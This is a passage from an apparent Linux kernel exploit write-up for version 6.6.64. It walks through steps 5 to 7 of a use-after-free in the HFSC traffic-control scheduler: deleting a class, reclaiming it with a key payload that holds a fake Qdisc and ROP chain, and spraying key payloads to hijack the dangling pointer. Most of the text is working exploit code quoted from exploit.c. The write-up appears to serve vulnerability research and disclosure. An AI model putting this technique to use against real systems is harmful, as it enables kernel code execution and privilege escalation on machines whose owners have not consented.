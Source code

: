### Step5: Delete `class_B`
[[exploit.c#L1508]](../exploit/lts-6.6.64/exploit.c#L1508)
```c
delete_tclass(
	code_execution_primitive->route_socket,
	code_execution_primitive->network_interface_ifindex,
	TC_H_MAJ(code_execution_primitive->classid_B),
	code_execution_primitive->classid_B
);
```
- We know the address of `class_B` (achieved from Step3).

### Step6: Reclaim `class_B` with `user_key_payload` object contain a fake Qdisc and ROPchain
[[exploit.c#L1515]](../exploit/lts-6.6.64/exploit.c#L1515)
```c
code_execution_primitive->key_B = user_key_payload_alloc(
	code_execution_primitive->key_B_desc,
	user_key_payload_write_buffer,
	sizeof(user_key_payload_write_buffer)
);
```

### Step7: Free `user_key_payload_A` and spray many `user_key_payload` such that `UAF_hfsc_class->qdisc` contain fake Qdisc prepared from Step4.
[[exploit.c#L1521]](../exploit/lts-6.6.64/exploit.c#L1521)
```c
memset(user_key_payload_write_buffer, 0, sizeof(user_key_payload_write_buffer));
fake_qdisc = (u64 *)
	(
		user_key_payload_write_buffer + \
		struct_hfsc_class_member_qdisc_offset - \
		sizeof(struct user_key_payload)
	);
*fake_qdisc = hfsc_class_leak_address + sizeof(struct user_key_payload);
fake_cl_e = (u64 *)
	(
		user_key_payload_write_buffer + \
		struct_hfsc_class_member_cl_e_offset - \
		sizeof(struct user_key_payload)
	);
*fake_cl_e = 0;
user_key_payload_free_and_wait_for_gc(&(code_execution_primitive->key_A));
for (u32 i = 0; i < code_execution_primitive->key_spray_count; i++)
	user_key_payload_alloc(
		code_execution_primitive->key_spray_descs[i],
		user_key_payload_write_buffer,
		sizeof(user_key_payload_write_buffer)
	);
```
